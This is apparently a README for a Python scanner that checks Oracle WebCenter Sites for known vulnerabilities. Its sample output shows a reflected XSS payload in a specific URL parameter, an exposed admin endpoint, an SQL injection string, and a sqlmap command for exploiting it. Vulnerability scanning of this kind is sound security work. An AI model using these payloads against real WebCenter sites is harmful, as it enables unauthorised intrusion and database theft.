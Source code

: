 # wcs_scanner
#### WebCenter Sites Vulnerability Scanner

Scan Oracle WebCenter Sites platform looking for its known vulnerabilities.

### Usage
```bash
python3 wcs_scanner.py http://example.com
```

**Example output**
```text
[!] Start scanning http://example.com

[*] Look for default login page
[-] Default login page not found

[*] Testing XSS
[+] Possible XSS found: http://example.com/cs/Satellite?c=qqqq&cid=qqqq&pagename=OpenMarket/Gator/FlexibleAssets/AssetMaker/confirmmakeasset&cs_imagedir=qqq"><script>alert(24)</script>
[...]

[*] Testing Broken Access Control
[+] Possible Broken Access Control found: http://example.com/cs/Satellite?pagename=OpenMarket/Xcelerate/Admin/WebReferences

[*] Testing SQL Injection
[+] Possible SQLi found POST /cs/ContentServer {'_authkey_': '...', 'pagename': 'OpenMarket/Xcelerate/Admin/WebReferences', 'op': 'search', 'urlsToDelete': '', 'resultsPerPage': 25, 'searchChoice': 'webroot', 'searchText': "' or '1'='1 -- "}
[*] You should test this with sqlmap:
sqlmap --dbms Oracle --url http://example.com/cs/ContentServer --data "_authkey_=...&pagename=OpenMarket/Xcelerate/Admin/WebReferences&op=search&urlsToDelete=&resultsPerPage=25&searchChoice=webroot&searchText=*" --cookie "JSESSIONID=..." --technique U

```

## Reference:
- https://outpost24.com/blog/Vulnerabilities-discovered-in-Oracle-WebCenter-Sites
- https://www.exploit-db.com/exploits/44752


### TODO
Nuclei templates for:
- cve-2019-2578
- cve-2019-2579
